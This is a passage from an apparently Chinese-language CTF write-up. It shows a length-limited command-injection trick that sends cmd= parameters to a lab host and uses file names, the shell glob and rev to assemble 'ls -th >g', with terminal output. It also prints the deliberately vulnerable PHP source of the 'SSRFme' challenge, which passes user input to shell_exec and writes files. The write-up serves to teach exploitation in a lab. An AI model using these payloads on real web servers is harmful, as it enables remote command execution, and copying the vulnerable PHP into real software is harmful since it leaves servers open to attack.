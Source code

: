 ```bash
http://10.211.55.17/?cmd=>dir
http://10.211.55.17/?cmd=>sl
http://10.211.55.17/?cmd=>g\>
http://10.211.55.17/?cmd=>ht-
➜  1924cf16182a5279a02c5ffb573daaa4 ls
dir  g>  ht-  sl  
➜  1924cf16182a5279a02c5ffb573daaa4 *
g>  ht-  sl  
➜  1924cf16182a5279a02c5ffb573daaa4 *>v
➜  1924cf16182a5279a02c5ffb573daaa4 cat v
g>  ht-  sl  
➜  1924cf16182a5279a02c5ffb573daaa4
```

利用\*，取到dir指令，然后dir指令返回`g>  ht-  sl `,最后写入到v中。

```bash
http://10.211.55.17/?cmd=>dir
http://10.211.55.17/?cmd=>sl
http://10.211.55.17/?cmd=>g\>
http://10.211.55.17/?cmd=>ht-
http://10.211.55.17/?cmd=*>v
http://10.211.55.17/?cmd=>rev
http://10.211.55.17/?cmd=*v>x
➜  1924cf16182a5279a02c5ffb573daaa4 cat x
ls  -th  >g
➜  1924cf16182a5279a02c5ffb573daaa4
```

通过rev指令将指令逆序写入x。这样就获得了`ls -th >g`后面就简单了，不再赘述。具体可以看Orange的官方WP。(\*v,先取到rev，再取到v,即将v反向。)







## 

## SSRFme

源码：

```php
<?php 
    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]); 
    @mkdir($sandbox); 
    @chdir($sandbox); 

    $data = shell_exec("GET " . escapeshellarg($_GET["url"])); 
    $info = pathinfo($_GET["filename"]); 
    $dir  = str_replace(".", "", basename($info["dirname"])); 
    @mkdir($dir); 
    @chdir($dir); 
    @file_put_contents(basename($info["basename"]), $data); 
    highlight_file(__FILE__); 
```
